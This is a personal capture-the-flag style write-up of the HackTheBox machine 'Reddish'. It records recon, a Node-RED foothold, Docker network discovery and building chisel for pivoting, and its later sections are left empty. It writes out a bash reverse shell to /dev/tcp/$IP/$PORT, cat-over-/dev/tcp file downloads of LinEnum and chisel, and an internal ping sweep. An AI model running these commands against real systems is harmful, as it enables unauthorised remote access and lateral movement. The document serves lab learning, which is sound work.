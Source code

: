 # Reddish
Name: Reddish
Date:  24/08/2022
Difficulty:  Insane
Goals:  To practice:
- different ways pivot 
- Linux related machines 
- not done one recently 
- database hacking
Learnt:
1. I need to try switching more Web Requests
2. TCP reply not listen back on shell...
3. cat file transfer
4. /dev/shm directory
5. Manual(Heard but not tried till now) Go Programs by using ldflags and upx packing from 10Mb to 3Mb!

## Recon

![ping](Screenshots/ping.png)

I want to note some of the differences to mine and Ippsec's more efficient Recon, although its is a scripted video it is still someone else approach to Web Hacking to assimilate to my own.


Firstly Icons favicons, in the Haddix Bug Bounty Hunter Methodology and on serveral podcast Haddix mentions a friend whom had a expertise in favicon abuse. 

From the icon, reverse image searches - a reason to use google more then identifies the RedNode Application.

I feroxbuster and then tried the /red/about directory and got this post request :
This is such a weird request to me

![](weirdtokenrequest.png)

to get the About.html, grepping for `red`
![](greppingtheabout.png)`

Reveal node-red...

I still think the favicon is cooler, but I a happy that I am improving my searching or dorking ability somewhat as I have be worrying I am too meticulious or no where near enough to get anywhere. **BUT**

I would have notice the key, but not found it.. I know 

![posting](ippsecposts.png)

`ab68fb463e681b499d99226ce92e12e9`

DAY 2 returned it generate a new `b1a51218f30da47d4f45b52972804d1a`

[Node-RED](https://nodered.org/about/)is a program tools visually displaying and interactable function of a program in chart


![](no-exploits.png)

This section was a real hammer home of the, how can I achieve my objective with what is in front of me. I think I have been concern about learning about and I will endeavour to try more boxes like this, I remember there is some proving ground boxes that are more like this.

![nodered](NODE-red.png)

TCP reply to!

![shell](shell.png)


`bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'`

Even though I like ncat and netcat, I am glad to finally be prompted to use it as a file transfer mechanism instead of other tools. Similar to trying out powercat it felt fun, but also gratting a tad as I always see it on Enumeration Script scans after I run it.. but I don't check its there before file transfering.


WOW on the cat file transfer, I have not seen this on any OSCP cheatsheets!
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /tmp/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

LinEnum finds Docker
![docker](weareindocker.png)

Although it is not mentioned a good thing to then check with Docker would be IP address as it is may have its own routing configuration to the host box.
![docker](dockerips.png)


```bash
for ip in $(seq 1 5); do
	ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"
	done
```
Oneliner
``
`for ip in $(seq 1 5); do ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`
`for ip in $(seq 1 5); do ping -c 1 172.19.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`

$1 = Gateway
try 2!
$3 = possibly other containers
19:45
https://www.youtube.com/watch?v=Yp4oxoQIBAM

```bash
cd /tmp
git clone https://github.com/jpillora/chisel.git
# To mimise binary size
# -s strip binary of debug info
# -w strip of dwarf infomation
go build -ldflags="-s -w"
upx brute chisel
ncat -lvp 80 < chisel
bash -c "cat < /dev/tcp/$IP/$Port > /tmp/chisel"
```

Ran into a lib missing error, trying this soon
```
go env GOOS GOARCH # current system as target
go tool dist list
GOOS=<os> GOARCH=<arch> go build
```

## Exploit

## Foothold

## PrivEsc

      
